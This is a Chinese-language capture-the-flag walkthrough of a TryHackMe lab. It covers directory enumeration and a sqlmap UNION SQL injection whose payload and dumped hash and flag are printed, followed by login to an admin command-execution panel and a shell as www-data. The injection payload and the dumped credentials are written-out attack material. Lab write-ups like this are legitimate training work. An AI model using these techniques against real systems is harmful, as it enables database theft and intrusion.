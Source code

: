 ```bash
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,txt
[+] Timeout:        10s
===============================================================
2023/09/22 02:07:25 Starting gobuster
===============================================================
/index.html (Status: 403)
/search.php (Status: 200)
/assets (Status: 301)
/server-status (Status: 403)
```

对于上面的结果来看:

- 主站 : 估计没东西了, 唯一可能的 secret 就是几个照片我还怀疑是文件隐写但是想多了
- admin 子域 : 一个登陆站点, 估计是要拿到登陆密码之类的内容, 尝试 sql 注入无果
- store 子域 : 有一个搜索界面可能存在 sql 注入漏洞下面我就进行了尝试 (过多内容我就不展示了, 最后我们可以获取到一个登陆数据库)

```bash
root@ip-10-10-157-48:~/cybercrafted# sqlmap -r sql_store.txt  --dbms=mysql
---
Parameter: search (POST)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: search=12' UNION ALL SELECT NULL,NULL,CONCAT(0x71786a7a71,0x75634f65566e5058566d4144785952757a58785a597963447252757a4b48457256467966696c4450,0x716a707a71),NULL-- tzLV&submit=
---

+----+------------------------------------------+---------------------+
| id | hash                                     | user                |
+----+------------------------------------------+---------------------+
| 1  | 88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01 | xXUltimateCreeperXx |
| 4  | THM{bbe315906038c3a62d9b195001f75008}    | web_flag            |
+----+------------------------------------------+---------------------+
```

对于上面得到的密码我们可以进行解密

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-132116.png)

之后登陆我们的 admin 子域发现进入一个 panel.php 界面这是一个命令执行页面

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-132116-1.png)

## 后渗透

### www-data

利用上面得到的命令执行窗口获取 Shell

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-132116-2.png)

### www-data —> xxultimatecreeperxx


[01:42:52 INFO]: Plugins (1): LoginSystem
[01:43:08 INFO]: Plugins (2): **BukkitTTY**, LoginSystem